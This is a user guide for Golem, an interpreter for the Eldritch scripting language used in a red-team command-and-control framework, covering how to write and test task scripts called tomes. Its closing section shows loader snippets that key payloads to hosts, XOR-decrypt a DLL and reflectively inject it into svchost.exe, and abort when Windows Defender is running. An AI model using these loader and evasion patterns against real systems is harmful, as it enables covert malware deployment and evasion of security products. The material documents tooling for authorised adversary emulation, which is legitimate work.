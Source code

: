 ```yaml
---
title: Golem
tags:
 - User Guide
description: Golem User Guide
permalink: user-guide/golem
---
```

## What is Golem

Golem is the standalone interpreter for Eldritch.
This program exists to help users get experience with the Eldritch language as well as a jumping off point if you're interested in implementing your own program using the Eldritch language. Additionally, consult our [Tomes](/user-guide/tomes) documentation for information about packaging [Eldritch](/user-guide/terminology#eldritch) code for use with [Imix](/user-guide/imix) and Tavern.

Golem can also be used operationally as an alternative to a system native shell.
You can leverage the power of Eldritch with minimal exposure in the system process tree.

## Try it out

```bash
git clone git@github.com:spellshift/realm.git
cd realm/implants/golem
cargo run -- -i
# - or -
cargo build --release && \
    ../target/debug/golem ../../tests/golem_cli_test/tomes/hello_world.tome
```

## Creating and testing tomes

Golem is a great way to quickly develop and iterate tomes without needing to deploy an agent and wait for callbacks. It enables a more interactive experience for Eldritch, which helps tome developers move quickly.
Golem operates in three different modes:

- Interactive `-i`
- With embedded tomes _no args_
- On a specific tome `/path/to/tome/eldritch.main`

In this guide we'll leverage the last one.

### Tome structure

Copy an existing tome and rename it to your desired name.

```bash
[~/realm]$ cd tavern/tomes/
[./tomes]$ cp -r ./file_list ./new_tome
```

This will setup the boiler plate.
A tome file structure should look like this:

```
./new_tome/
├── files
│   └── test-file
├── main.eldritch
└── metadata.yml
```

_If you have no files associated with your tome you can ommit the `files` dir_

- main.eldritch - Defines our actual Eldritch functionality and what will be executed on the agent.
- metadata.yaml - Defines information that tavern will use to prepare your tome including prompting users for input.

### Tome Metadata

Your tome Metadata should look like this:

```yaml
name: List files # The name of your tome.
description: List the files and directories found at the path # A description to help users understand what your tome does.
author: hulto # Your Github username.
support_model: FIRST_PARTY # Is this a tome that ships with Realm or not?
tactic: RECON # Which MTIRE ATT&CK Tactic best describes this tome?
paramdefs: # A list of inputs the tome requires.
- name: path # The name of the input parameter `input_params['path']`.
  type: string # The type of the input parameter.
  label: File path # A Label that will be displayed in the UI to help users understand the purpose.
  placeholder: "/etc/" # A placeholder to give users an idea of how their input should be formatted.
```

### Building your Eldritch script

Eldritch while it looks like python is distinct and many features in python do not exist in Eldritch.

For an almost complete list of syntax checkout the starlark (DSL which Eldritch is based on) docs <https://bazel.build/rules/language>
*Note: The docs may be incorrect in some places as we're using the starlark-rust implementation which doesn't always adhere to the starlark spec.*

```python
# Define our function for the tome and any inputs
def file_list(path):
    # make sure you proactively check the state of the system.
    # Users may pass bad data in or the system may be in an
    # unexpected state so always check if something is a dir
    # before treatingi it like one.
    if file.is_dir(path):
        files = file.list(path)
        for f in files:
            type_str = ""
            if f['type'] == "Directory":
                type_str = "Dir"
            if f['type'] == "Link":
                type_str = "Link"
            if f['type'] == "File":
                type_str = "File"
            # Formatting - By default Eldritch will print data as a JSON Dictionary which is easy for scripts to read but
            # not great for humans to make your tome more usable make sure you print data in a readable way.
            print(f['permissions']+"\t"+f['owner']+"\t"+f['group']+"\t"+str(f['size'])+"\t"+f['modified']+"\t"+type_str+"\t"+f['file_name']+"\n")
    else:
        print("Error: Invalid Path ("+path+")\n")

# Call our tomes function.
file_list(input_params['path'])
# `input_params` is a dictionary that's implicitly passed into the Eldritch runtime.
# The key value pairs in input_params is defined by the users answers to the paramdefs in the UI.
# For example if you specify `name: path` in your `metadata.yml` file the UI will ask the user for
# a path and then populate the `path` key in `input_params` when the tome runs.
# Input params is unique to each task so setting a var in one task won't affect others.
print("\n")
print("\n")
```

### Design ideology

Tomes are designed to accomplish specific workflows.
Some small tomes have been created to accomplish basic sysadmin tasks like reading, writing files, checking processes etc.
Ideally though if you have a specific workflow you'll define it as a tome.
We want to avoid queueing multiple quests to accomplish a workflow.

### Testing your tome

Now that your tome is created let's test it locally.

```bash
[~]$ cd realm/implants/golem
[./golem]$ cargo run -- ~/realm/tavern/tomes/new_tome/main.eldritch
# ...
# Tome output
# ...
```

_If you have input_params that you need to define for your tome manually set them for your test by adding a line like this:_

```python
input_params['path'] = "/tmp/"
file_list(input_params['path'])
```

## Golem embedded files

The Eldritch interpreter can embed files at compile time. To interact with these assets use the `assets` module in Eldritch. In addition to programmatic access the embedded files can be automatically executed at run time. If no other option is specified `-i` or a file path, golem will iterate over every instance of `main.eldritch` in the embedded assets launching each one as a separate thread. This behavior is desirable when trying to perform recon or deploy persistence quickly.

## Golem as a stage 0

Golem can also be used as a stage 0 to load imix or other c2 agents.
This can help in a few ways such as:

- Keying payloads to specific hosts

```python
def main():
    if is_linux():
        if is_dir("/home/hulto/"):
            run_payload()
main()
```

- Executing encrypted payloads from memory

```python
def decrypt(payload_bytes):
    let res = []
    for byte in in payload_bytes:
        res.push(byte ^ 6)
    return res

def main():
    if is_windows():
        for proc in process.list():
            if "svchost.exe" in proc['name']:
                let enc_bytes = assets.read_bytes("imix.dll")
                sys.dll_reflect(decrypt(enc_bytes), proc['pid'], 'imix_main')
                return

main()
```

- Detecting security products before execution

```python
def main():
    for proc in process.list():
        if "MsMpEng.exe" in proc['name']:
            return
    run_payload()
main()
```
